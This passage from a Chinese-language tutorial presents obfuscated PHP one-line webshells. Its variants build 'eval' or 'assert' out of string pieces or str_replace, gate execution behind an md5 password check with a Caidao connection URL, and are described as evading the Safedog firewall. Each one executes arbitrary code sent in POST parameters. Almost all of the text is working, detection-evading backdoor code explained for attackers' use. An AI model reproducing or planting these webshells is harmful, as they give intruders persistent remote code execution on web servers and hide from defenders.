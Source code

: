 这个地方运用了一个函数str\_replace()函数

> str\_replace():子字符串替换
>
> **`str_replace`**` (array|string $search,array|string $replace, string|array $subject, int &$count =`` `` `**`null`**`): string|array`
>
> 第一个参数是茶渣的目标值，第二参数是search的替换值，第三个参数是执行替换的数组或者字符串。

所以这个变形形态就是

```php
<?php
$a=str_replace("hello","","evhelloal");
$a(@$_POST['x']);
?>
```

#### 4)形态四

```php
<?php
$a='e'.'v';
$b='a'.'l';
$c=$a.$b;
$c($_POST['x']);
?>
```

### <mark style="color:purple;background-color:yellow;">②一句话木马的各种绕过</mark>

#### 1）防爆破一句话

```php
<?php
substr(md5($_POST['x']),28)=='6862'&&eval($_POST['123456']);

?>
```

{% hint style="info" %}
```
菜刀地址http://192.168.**.***/x.php?x=myh0st
```
{% endhint %}

这段代码的意思就是，接受一个变量x的值，然后对x的值进行md5加密（通常加密后的为32位），所以substr(string,offset)表示从x的28位开始要是6862（是从0，1，2，3，这样开始的到28），然后满足了才能进行eval()函数，所以就是防止了直接爆破password。（上述的6862是根据自己的x的md5确定的,比如题目中的是x=myh0st，myh0st通过md5加密后后四位是6862）

#### 2）过狗的一句话

```php
<?php
$a="a"."s"."s"."e"."r"."t";
$a($_POST['123456']);
?>
```
